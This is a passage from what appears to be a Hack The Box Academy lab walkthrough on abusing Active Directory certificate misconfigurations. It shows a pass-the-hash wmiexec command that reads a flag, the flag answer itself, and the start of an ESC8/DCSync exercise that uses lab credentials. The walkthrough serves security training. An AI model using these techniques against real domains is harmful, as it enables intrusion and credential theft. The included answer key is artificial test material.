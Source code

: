 ```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-6eyilg2fh9]─[~]
└──╼ [★]$ proxychains -q wmiexec.py -no-pass -hashes :6e599ada28db049c044cc0bb4afeb73d administrator@172.16.19.3 "more C:\ESC5\flag.txt"

Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] SMBv3.0 dialect used
HTB{ESC5_ACC3S5_ABUS3}
```

Answer: `HTB{ESC5_ACC3S5_ABUS3}`

## ESC8

### Question 1

#### "Use the credentials of blwasp@lab.local (blwasp:Password123!) to abuse the ESC8 misconfiguration and compromise the DC. Perform a DCSync attack and submit the NT hash of KRBTGT as the answer."

After spawning the target machine, students need to connect to it with SSH, passing the password `HTB_@cademy_stdnt!` with `sshpass` (it is important to set the `-oStrictHostKeyChecking` option to `accept-new`, which allows SSH to automatically add new host keys to the user's known hosts files):

Code: shell

```shell
sshpass -p 'HTB_@cademy_stdnt!' ssh htb-student@STMIP -oStrictHostKeyChecking=accept-new
```

```shell-session
